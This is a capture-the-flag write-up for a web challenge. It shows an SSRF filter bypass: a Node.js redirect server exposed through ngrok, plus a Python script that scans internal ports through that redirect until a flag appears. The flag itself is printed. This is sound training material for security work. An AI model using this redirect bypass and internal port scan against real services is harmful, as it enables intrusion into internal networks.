






# Super Website Verificator 3000

> Our team of brilliant engineers has developed a highly sophisticated website designed to perform check-ups on other sites. It can even uncover hidden information, possibly concealed by some clever tricksters. Take a look and see if you can find anything!
> 
> The problem with the 169.254 subnet was fixed, it was a security issue with the infrastructure.
> 
> `http://challenges.hackday.fr:43244`

Upon opening the website, we will see the following webpage with an input element.



After inserting a URL as input and enabling the checkbox, we will receive the response body.



This looks like **Server-side request forgery (SSRF)**. Firstly, I tried to use `http://localhost` as input to check if application would process it, but I got the error `Error: you must provide a valid domain name`.



Secondly, I used `http://127.0.0.1` and it returned the same error. Sending `https://example.com@localhost` gave me `Error: you must provide a valid domain name`. So I decided to check the HTML through dev tools. I found out that there is a `<script>` element sending a POST request to `/api/check`. There were no checks returning errors, which means the validation was performed server-side, making editing the response through [Burp Suite](https://portswigger.net/burp) pointless.



So I decided to create a local server and expose it with [ngrok](https://ngrok.com/). The local server listens for requests and redirects clients to `http://127.0.0.1:80`.

```js
const http = require("http");

http.createServer((req, res) => {
    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);
    res.writeHead(302, { Location: "http://127.0.0.1:80" });
    res.end();
  }).listen(8080, () => console.log("Node.js web server at 8080 is logging client info and redirecting..."));
```

The following script sets up a Node.js server to redirect requests to a specific local port. Then I opened a server to public with `ngrok http 8080` and received my website's URL. After that I've tried to use it in the task.



This worked. Afterward, I decided to use [DirBuster](https://www.kali.org/tools/dirbuster/) to find secret directories and files, but it didn't yield any results. Then I decided to check different ports on the internal server. Firstly, I changed the [server script](server.js).

```js
const http = require('http');

http.createServer((req, res) => {

    console.log(`Request Details: Method=${req.method}, URL=${req.url}`);

    port = req.url.split('=')[1];
    console.log(`Port: ${port}`);

    res.writeHead(302, { 'Location': 'http://127.0.0.1:' + port });
    res.end();
}).listen(8080, () => console.log('Node.js web server at 8080 is logging client info and redirecting...'));
```

Secondly, I created a [Python script](script.py) to send the ngrok URL with ports from 1 to 1000 to the `/api/check` route.

```python
import requests

url = "http://challenges.hackday.fr:43244/api/check"
# Replace <REDACTED> with your URL
test_url = "https://<REDACTED>.ngrok-free.app/?port="

for i in range(1, 1000):
    # Replace <REDACTED> with your URL
    test_url = f"https://<REDACTED>.ngrok-free.app/?port={i}"
    response = requests.post(url, data={"url": test_url, "showBody": "on"})
    print(f"Testing port {i}:\n{response.text}\n")
```

After some time, the script sent a request to port 600, which returned a flag.



`HACKDAY{Give_ME_YOuR_L0OPb@CK}`
